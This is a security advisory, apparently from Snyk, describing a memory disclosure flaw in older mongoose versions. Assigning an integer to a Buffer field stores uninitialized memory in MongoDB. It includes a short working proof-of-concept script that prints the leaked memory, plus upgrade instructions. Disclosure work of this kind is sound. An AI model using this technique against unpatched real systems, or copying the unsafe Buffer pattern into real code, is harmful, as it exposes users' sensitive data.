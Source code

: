 ## Overview
A potential memory disclosure vulnerability exists in mongoose.
A `Buffer` field in a MongoDB document can be used to expose sensitive
information such as code, runtime memory and user data into MongoDB.

### Details
Initializing a `Buffer` field in a document with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```
Initializing a MongoDB document field in such manner will dump uninitialized
memory into MongoDB.
The patch wraps `Buffer` field initialization in mongoose by converting a
`number` value `N` to array `[N]`, initializing the `Buffer` with `N` in its
binary form.

#### Proof of concept
```javascript
var mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/bufftest');

// data: Buffer is not uncommon, taken straight from the docs: http://mongoosejs.com/docs/schematypes.html
mongoose.model('Item', new mongoose.Schema({id: String, data: Buffer}));

var Item = mongoose.model('Item');

var sample = new Item();
sample.id = 'item1';

// This will create an uninitialized buffer of size 100
sample.data = 100;
sample.save(function () {
    Item.findOne(function (err, result) {
        // Print out the data (exposed memory)
        console.log(result.data.toString('ascii'))
        mongoose.connection.db.dropDatabase(); // Clean up everything
        process.exit();
    });
});
```

## Remediation
Upgrade `mongoose` to version >= 3.8.39 or >= 4.3.6.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/documentation/#wizard) to patch this vulnerability.

## References
- https://github.com/Automattic/mongoose/issues/3764
- https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials
- https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md
